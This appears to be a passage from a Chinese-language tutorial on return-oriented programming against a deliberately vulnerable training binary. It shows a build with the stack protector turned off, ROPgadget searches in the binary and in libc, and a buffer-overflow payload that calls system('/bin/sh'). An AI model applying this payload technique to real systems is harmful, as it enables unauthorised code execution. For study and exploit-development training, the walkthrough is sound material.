 ``` c
int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```

编译方法：

``` bash
gcc -fno-stack-protector level4.c -o level4 -ldl
```

首先目标程序会`打印system()`在`内存中的地址`，这样的话就不需要我们考虑`ASLR`的问题了，只需要想办法触发buffer overflow然后`利用ROP执行system(“/bin/sh”)`。但为了调用system(“/bin/sh”)，我们需要找到一个gadget将`rdi`的值指向`“/bin/sh”的地址`。于是我们使用`ROPGadget`搜索一下level4中所有`pop ret`的gadgets。

``` bash
$ ROPgadget  --binary level4 --only "pop|ret"
Gadgets information
============================================================
0x00000000004008ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004008ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004008b0 : pop r14 ; pop r15 ; ret
0x00000000004008b2 : pop r15 ; ret
0x00000000004008ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004008af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400700 : pop rbp ; ret
0x00000000004008b3 : pop rdi ; ret
0x00000000004008b1 : pop rsi ; pop r15 ; ret
0x00000000004008ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400601 : ret
0x0000000000400682 : ret 0x2009

Unique gadgets found: 12
```

结果并不理想，因为程序比较小，在目标程序中并不能找到`pop rdi; ret`这个gadget。怎么办呢？解决方案是寻找`libc.so`中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以`通过system()`计算出`偏移量`后调用对应的gadgets。(我这里找到了，估计是ROPgadget版本不一样吧，但是不行，exp执行不了，还是libc.so里的可以)

``` bash
$ ROPgadget  --binary libc.so.6 --only "pop|ret" | grep rdi
0x0000000000020256 : pop rdi ; pop rbp ; ret
0x0000000000021102 : pop rdi ; ret
0x0000000000067499 : pop rdi ; ret 0xffff
```

这次我们成功的找到了“pop rdi; ret”这个gadget了。也就可以构造我们的ROP链了。

``` bash
payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```

另外，因为我们`只需调用一次system()`函数就可以获取shell，所以我们也可以搜索`不带ret的gadgets`来构造ROP链。

``` bash
$ ROPgadget  --binary libc.so.6 --only "pop|call" | grep rdi
0x0000000000196aab : call qword ptr [rdi + rbp*2 + 0x7fa40000]
0x000000000019ade3 : call qword ptr [rdi + rbx + 2]
0x000000000007d8b0 : call qword ptr [rdi]
0x0000000000023e56 : call rdi
0x0000000000107419 : pop rax ; pop rdi ; call rax
0x000000000010741a : pop rdi ; call rax
```

